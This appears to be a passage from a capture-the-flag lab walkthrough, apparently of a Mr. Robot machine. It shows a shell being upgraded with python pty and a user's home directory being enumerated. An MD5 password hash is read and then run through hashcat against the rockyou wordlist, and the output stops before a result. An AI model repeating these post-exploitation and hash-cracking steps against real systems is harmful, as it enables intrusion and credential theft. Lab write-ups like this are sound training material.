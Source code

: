 [http://10.10.239.79/pwned](http://10.10.239.79/pwned)

```
python -c "import pty; pty.spawn('/bin/bash')"

daemon@linux:/$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
drwxr-xr-x  2 root root 4096 Nov 13  2015 robot
daemon@linux:/$ ls -la /home/robot
ls -la /home/robot
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5

export TERM=xterm

cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

hashcat -m 0 --force hash /usr/share/wordlists/rockyou.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 512/1493 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=0 -D _unroll'
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385
```